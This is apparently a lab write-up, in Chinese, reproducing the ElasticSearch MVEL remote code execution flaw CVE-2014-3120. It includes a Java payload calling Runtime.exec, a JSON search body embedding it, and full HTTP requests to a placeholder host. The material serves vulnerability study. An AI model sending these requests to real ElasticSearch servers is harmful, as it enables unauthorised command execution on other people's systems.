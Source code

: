 # ElasticSearch 命令执行漏洞（CVE-2014-3120）

###### by ADummy

### 0x00利用路线

​			Burpsuite抓包--->java代码放入json--->有回显命令执行

### 0x01漏洞介绍

​			老版本ElasticSearch支持传入动态脚本（MVEL）来执行一些复杂的操作，而MVEL可执行Java代码，而且没有沙盒，所以我们可以直接执行任意代码。

MVEL执行命令的代码如下：

```
import java.io.*;
new java.util.Scanner(Runtime.getRuntime().exec("id").getInputStream()).useDelimiter("\\A").next();
```



### 0x02漏洞复现

将Java代码放入json中：

```
{
    "size": 1,
    "query": {
      "filtered": {
        "query": {
          "match_all": {
          }
        }
      }
    },
    "script_fields": {
        "command": {
            "script": "import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"id\").getInputStream()).useDelimiter(\"\\\\A\").next();"
        }
    }
  }
```

首先，该漏洞需要es中至少存在一条数据，所以我们需要先创建一条数据：

```
POST /website/blog/ HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 25

{
  "name": "phithon"
}
```

然后，执行任意代码：

```
POST /_search?pretty HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 343

{
    "size": 1,
    "query": {
      "filtered": {
        "query": {
          "match_all": {
          }
        }
      }
    },
    "script_fields": {
        "command": {
            "script": "import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"id\").getInputStream()).useDelimiter(\"\\\\A\").next();"
        }
    }
}
```



![ElasticSearch_RCE_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/ElasticSearch_RCE_1.jpg)

![ElasticSearch_RCE_2](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/ElasticSearch_RCE_2.jpg)